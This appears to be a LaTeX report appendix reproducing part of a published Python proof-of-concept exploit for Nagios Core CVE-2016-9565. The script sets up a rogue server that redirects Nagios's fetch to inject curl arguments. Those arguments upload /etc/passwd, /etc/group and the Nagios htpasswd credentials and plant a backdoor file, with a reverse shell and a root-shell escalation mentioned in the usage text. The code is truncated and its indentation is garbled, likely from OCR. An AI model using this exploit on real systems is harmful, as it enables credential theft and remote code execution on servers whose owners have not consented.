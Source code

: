 \documentclass[12pt]{report}
\begin{document}
\begin{appendices}
\chapter{\textlatin{Python Script source code}}\label{AppA}
\begin{scriptsize}
\begin{verbatim}
#!/usr/bin/env python
intro = """\033[94m
Nagios Core < 4.2.0 Curl Command Injection / Code Execution PoC Exploit 
CVE-2016-9565
nagios_cmd_injection.py ver. 1.0

Discovered & Coded by:

Dawid Golunski
https://legalhackers.com
\033[0m
"""
usage = """
This PoC exploit can allow well-positioned attackers to extract and write 
arbitrary files on the Nagios server which can lead to arbitrary code execution
on Nagios deployments that follow the official Nagios installation guidelines. 

For details, see the full advisory at:
https://legalhackers.com/advisories/Nagios-Exploit-Command-Injection-CVE-2016-9565-2008-4796.html

PoC Video:
https://legalhackers.com/videos/Nagios-Exploit-Command-Injection-CVE-2016-9565-2008-4796.html

Follow https://twitter.com/dawid_golunski for updates on this advisory.

Remember you can turn the nagios shell into root shell via CVE-2016-9565:
https://legalhackers.com/advisories/Nagios-Exploit-Root-PrivEsc-CVE-2016-9566.html

Usage:

./nagios_cmd_injection.py reverse_shell_ip [reverse_shell_port]

Disclaimer:
For testing purposes only. Do no harm.

"""

import os
import sys
import time
import re
import tornado.httpserver
import tornado.web
import tornado.ioloop

exploited  = 0 
docroot_rw = 0

class MainHandler(tornado.web.RequestHandler):

    def get(self):
  global exploited
  if (exploited == 1):
    self.finish()
  else:
    ua  = self.request.headers['User-Agent']
    if "Magpie" in ua:
      print "[+] Received GET request from Nagios server (%s) ! Sending redirect to inject our curl
      payload:\n" % self.request.remote_ip
      print  '-Fpasswd=@/etc/passwd -Fgroup=@/etc/group -Fhtauth=@/usr/local/nagios/etc/htpasswd.users
      --trace-ascii ' + backdoor_path + '\n'
      self.redirect('https://' + self.request.host + '/nagioshack -Fpasswd=@/etc/passwd -Fgroup=@/etc/group
      -Fhtauth=@/usr/local/nagios/etc/htpasswd.users --trace-ascii ' + backdoor_path, permanent=False)
      exploited = 1


\end{verbatim}
\end{scriptsize}
\end{appendices}
\end{document}
